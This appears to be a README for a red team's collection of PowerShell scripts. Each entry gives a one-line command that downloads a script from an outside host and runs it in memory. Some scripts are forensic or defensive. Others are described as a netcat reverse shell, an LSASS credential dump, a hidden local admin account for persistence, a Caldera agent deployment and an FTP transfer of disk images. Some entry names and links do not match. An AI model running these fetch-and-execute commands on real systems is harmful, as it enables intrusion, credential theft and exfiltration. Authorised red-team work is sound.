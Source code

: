 # Eren Red Team
This repository contains the scripts that is created by Eren Red Team.

## bootstrap.ps1
Downloads necessary installation packages for CyberPipe and runs it, creates .vhdx file of the target.
``` powershell
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/dheenaxe/ErenRedTeam/refs/heads/main/bootstrap.ps1')
```

## transfer.ps1
Automatically finds .vhdx file in the determined destination path and sends it to FTP server.
``` powershell
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/dheenaxe/ErenRedTeam/refs/heads/main/transfer.ps1')
```

## cekmece.ps1
Triage tools with little automation
``` powershell
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/dheenaxe/ErenRedTeam/refs/heads/main/cekmece.ps1') 
```

## inspedefe.ps1
String search tool inspired by Didier Stevens's PDFiD
``` powershell
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/dheenaxe/ErenRedTeam/refs/heads/main/inspedefe.ps1') 
```

## korktunmu.ps1
Python and PIP Installation using Chocolatey
``` powershell
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/dheenaxe/ErenRedTeam/refs/heads/main/korktunmu.ps1') 
```

## olegunnar.ps1
Glue to use ole-tools
``` powershell
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/dheenaxe/ErenRedTeam/refs/heads/main/korktunmu.ps1') 
```

## godhand.ps1
Simple reverse shell with netcat without no obfuscation
``` powershell
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/dheenaxe/ErenRedTeam/refs/heads/main/godhand.ps1') 
```

## macaron.ps1
Loudest LSASS dump ever
``` powershell
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/dheenaxe/ErenRedTeam/refs/heads/main/macaron.ps1') 
```

## nese.ps1
Enables advanced audit policies and PowerShell logging for detailed process, authentication, and privilege monitoring
``` powershell
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/dheenaxe/ErenRedTeam/refs/heads/main/nese.ps1') 
```

## lumpen.ps1
Performs a scan of all running processes and scheduled tasks 
``` powershell
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/dheenaxe/ErenRedTeam/refs/heads/main/lumpen.ps1') 
```

## paradise.ps1
Caldera agent deployment via PowerShell
``` powershell
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/dheenaxe/ErenRedTeam/refs/heads/main/paradise.ps1') 
```

## madraseye.ps1
Windows Firewall Rule Management
``` powershell
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/dheenaxe/ErenRedTeam/refs/heads/main/madraseye.ps1') 
```

## madraseye.ps1
Local admin user creation for persistency
``` powershell
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/dheenaxe/ErenRedTeam/refs/heads/main/perkande.ps1') 
```